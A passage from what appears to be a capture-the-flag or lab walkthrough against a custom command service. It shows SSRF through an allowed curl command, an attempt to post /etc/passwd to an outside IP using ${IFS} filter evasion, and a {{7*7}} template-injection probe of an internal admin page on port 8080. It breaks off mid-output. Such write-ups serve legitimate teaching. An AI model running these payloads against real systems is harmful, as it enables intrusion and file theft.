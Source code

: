 Great! Now we can use the original script to interact with the system. I appended a small section here at the bottom:

```python
uuid = login()
cmd = sys.argv[1]
arg = sys.argv[2]
print(send_command(uuid, cmd))
#print(send_command(uuid, cmd, arg))

$ python3 client.py commands
[b'1', b'7cfabad4-e264-442a-9977-88114ef4bbcb', b'']
commands|id|curl
```

It seems that we can only run `id` and `curl`. Since `curl` is open, we can try to read some files or do SSRF. Running curl on `localhost` returns a `base64` encoded string:

```
$ python3 client.py curl http://127.0.0.1        
[b'1', b'a38814c0-fb85-4cdc-abe8-264b5646959c', b'']
PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJlbiI+DQo8aGVhZD4NCgk8dGl0bGU+Q29va2llIEN1dHRlciBDb21pb
```

LFI doesn't work, even with `${IFS}`:

```
$ python3 client.py curl '-d${IFS}@/etc/passwd${IFS}http://192.168.45.191' 
ERROR
```

In this case, it means SSRF is the only option. I tested the popular web ports that were open, and found one:

```
$ python3 client.py curl 'http://127.0.0.1:8080'  | base64 -d
<!DOCTYPE html>
<html>
        <head>
                <title>Internal Admin Echo Test</title>
        </head>
        <body>
                <form action="/" method="get">
                        <input type="text" name="echostr" value="Hello World!">
                        <input type="submit" value="Submit">
                </form>
        </body>
</html>
```

Port 8080 hosted an internal admin page that takes a string and echoes it back. I tried some basic SSTI since it was being printed, and it worked:

```python
uuid = login()
cmd = 'curl'
arg = 'http://127.0.0.1:8080/?echostr={{7*7}}'
print(send_command(uuid, cmd, arg))

$ python3 client.py  | base64 -d
<!DOCTYPE html>
<html>
        <head>
                <title>Internal Admin Echo Test</title>
        </head>
        <body>
                <form action="/" method="get">
                        <input type="text" name="echostr" value="Hello World!">
                        <input type="submit" value="Submit">
```